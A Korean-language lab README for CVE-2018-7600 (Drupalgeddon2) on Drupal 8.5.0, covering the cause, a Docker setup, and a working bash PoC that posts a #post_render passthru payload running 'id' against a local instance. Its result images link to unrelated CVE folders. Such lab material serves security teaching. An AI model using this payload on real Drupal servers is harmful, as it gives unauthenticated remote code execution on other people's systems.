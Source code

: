 # CVE-2018-7600 - Drupalgeddon2 (Drupal 8.5.0 RCE)

## 1. 개요
- Drupal 8.5.0 버전에서 발생한 인증 없는 원격 코드 실행(RCE) 취약점이다.
- Form API 처리 로직의 결함을 통해 외부 사용자가 서버 명령어를 실행할 수 있다.

## 2. 취약점 원인
- Drupal이 사용자로부터 받은 `#post_render` 파라미터를 제대로 검증하지 않고 그대로 실행한다.
- 이로 인해 원격 사용자가 서버 측에서 임의의 PHP 함수나 시스템 명령어를 실행할 수 있다.

## 3. 환경 구축 (완전 자동화)

- `docker compose up -d` 명령어로 즉시 설치 완료된 Drupal 8.5.0 환경이 실행된다.

- `settings.php`, `init.sql` 설정파일 백업본 적용
- 별도의 수동 설치 과정 없이, 웹 접속 시 바로 Drupal 메인 화면을 확인할 수 있다.

**구성 자동화 방식:**
- `settings.php`: Drupal 설치 완료 상태 파일을 컨테이너 실행 시 복사
- `init.sql`: DB 초기 데이터 세팅을 컨테이너 시작 시 자동 적용

## 4. 실습 (PoC)

- 해당 스크립트는 Drupal 서버에 취약한 요청을 보내고 명령어 실행 결과를 확인할 수 있다.
- 자동 poc 실행 코드

### PoC 스크립트 (poc_exploit.sh)
명령어 자동실행
```
#!/bin/bash

echo "[*] Drupal CVE-2018-7600 PoC 실행 중..."

response=$(curl -k -s -X POST "http://localhost:8080/user/register?element_parents=account/mail/%23value&ajax_form=1&_wrapper_format=drupal_ajax" \
-H "Content-Type: application/x-www-form-urlencoded" \
--data "form_id=user_register_form&_drupal_ajax=1&mail[a][#post_render][]=passthru&mail[a][#markup]=id")

echo "[+] 서버 응답:"
echo "$response"
```

실행코드
```
chmod +x poc_exploit.sh
./poc_exploit.sh
```

## 5. 결과
[![image](https://github.com/won6c/whitehat-school-vulhub/blob/main/CVE-2021-22205/1.png)]
[![image](https://github.com/Thengelsec/kr-vulhub/tree/feature/thengelsec/1.png)]

- 쉘에서 id 명령어 결과가 나옴